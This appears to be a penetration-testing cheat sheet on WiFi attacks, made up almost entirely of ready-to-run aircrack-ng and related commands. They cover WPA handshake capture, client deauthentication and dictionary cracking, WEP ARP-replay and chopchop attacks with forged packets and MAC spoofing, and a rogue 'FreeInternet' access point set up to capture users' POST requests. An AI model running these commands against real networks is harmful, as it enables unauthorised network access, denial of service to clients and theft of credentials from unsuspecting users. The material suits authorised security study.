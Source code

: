 
### WiFi Security
_1.1 Basics_  
Check Wireless interface
```
$ iwconfig wlan0
$ airmon-ng check / check kill (check and kill interfering processes with monitor interface)
```
Set up monitor mode interface on wlan0
```
$ airmon-ng start wlan0
or
$ airmon-ng stop wlan0mon
```
Check packet injection and link quality
```
$ aireplay-ng -9 wlan0mon
```
Discover wireless networks
```
$ kismet -c mon0
or
$ airodump-ng mon0
$ airodump-ng -c 11 -a mon0 (+lock to channel)
```
WPA Capture
```
Airodump-ng --bssid <TargetNetworkBSSID> -c <channel> -w handshake (outputfile)  wlan0mon (interface)
``` 
Deauth client from BSSID network
```
Aireplay-ng -0 0 -a <TargetNetworkBSSID> -c ClientMAC wlan0mon
```
Dictionary Attack vs WPA handshake - WPA keys are between 8 and 63 characters.  
Optimize wordlist for WPA/WPA2 testing
```
$ pw-inspector -i rockyou.txt -o optimized.txt -m 8 -M 63
then
$ aircrack-ng -w optimized.txt ../handshake/handshake.cap
```
_1.2 Traffic Analysis_
```
Launch Wireshark and select your monitor interface, start
//Filter by BSSID to focus on target network traffic
wlan.fc.type_subtype != 8 && wlan.bssid == <BSSID Value>
//Filter further by only selecting the management frames and authentication frames
**add, && wlan.fc.type == 0 && (wlan.fc.subtype == 0 || wlan.fc.subtype == 1 || wlan.fc.subtype == 0xB)
or, && wlan.fc.type == 2

Decrypt Captured Traffic
WEP 
# airdecap.ng -w <wep key in hex> <.cap>
WPA 
# airdecap.ng -p <wpa passphrase> -e <SSID> <.cap>
```
_1.3 Attacking WiFi Networks_
```
WEP
# aireplay-ng -l 6000 -q 10 -a BSSID -e SSID mon0 //Sending authentication/association request
# aireplay-ng -3 -b BSSID mon0 //ARP replay attack
//Capture good amount of frames 10-20k
# aircrack-ng -n 64 wep_capture.cap

WEP + Shared Key Authentication
//Jot down MAC address of associated clients for spoofing, take down monitor interface
# macchanger --mac <MAC to Spoof> mon0
//Can proceed from here as WEP cracking earlier or perform CHOPCHOP attack.
# aireplay-ng -4 -b BSSID mon0
//Proceed with good candidate frame >68 bytes
//Look at decrypted data frame .cap with TCPDump
# tcpdump -n -r decrypted_data_frame.cap
//Forge ARP request with IP addresses discovered
# packetforge-ng --arp -a AP-BSSID -h ClientMACAddress -k TargetIP -l SenderIP -y decrypted_data_frame.xor -w arp_req
//Inject forged ARP request
# aireplay-ng -2 -r arp_req -x 100 mon0
```
_1.4 WiFi As Attack Vector_
```
//Setup Fake AP
# airbase-ng -c 11 -e FreeInternet mon0
//Bridge the connection between eth0 and Fake AP interface at0
# brctl addbr br0
# brctl addif br0 eth0
# brctl addif br0 at0
# ifconfig eth0 0.0.0.0 up
# ifconfig at0 0.0.0.0 up
# ifconfig br0 192.168.3.11 up //Assign IP address that isnt taken by another client
//Enable packet forwarding on attack machine
# echo 1 > /proc/sys/net/ipv4/ip_forward

//Launch Wireshark on Fake AP interface and filter traffic to only POST requests
http && http.request.method == POST

Wardriving
wigle.net
```
